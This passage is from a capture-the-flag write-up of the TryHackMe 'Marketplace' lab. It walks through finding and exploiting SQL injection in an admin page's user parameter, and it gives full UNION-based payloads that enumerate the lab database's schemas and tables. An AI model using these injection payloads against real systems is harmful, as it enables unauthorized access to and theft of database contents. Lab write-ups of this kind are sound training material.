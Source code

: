 If you click one of the boxes it will give you details of that user on a different page
![image12.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image12.png)

I took a look at the URL and saw there was a parameter
http://10.10.138.5/admin?user=1

I knew it had to be doing some sort of SQL query to fetch the user. So I tried doing some SQLi detection. By replacing the 1 with just a `;` you get to see a MySQL error

![image13.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image13.png)

Perfect we can do some SQLi here. Since we know the page displays output from the query we can do a UNION based attack. With some testing this payload satisifes the query without producing any errors
http://10.10.138.5/admin?user=1000%20UNION%20SELECT%201,2,3,4;

Time to enumerate some tables

This following payload leaks all database names
http://10.10.138.5/admin?user=1000%20UNION%20SELECT%20group_concat(schema_name),2,3,4%20FROM%20information_schema.schemata%20;

![image14.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image14.png)

We need to target the `marketplace` database. By using this payload we get all the tables in the marketplace database
http://10.10.138.5/admin?user=1000%20UNION%20SELECT%20group_concat(table_name),2,3,4%20FROM%20information_schema.tables%20WHERE%20table_schema%20=%20%27marketplace%27;
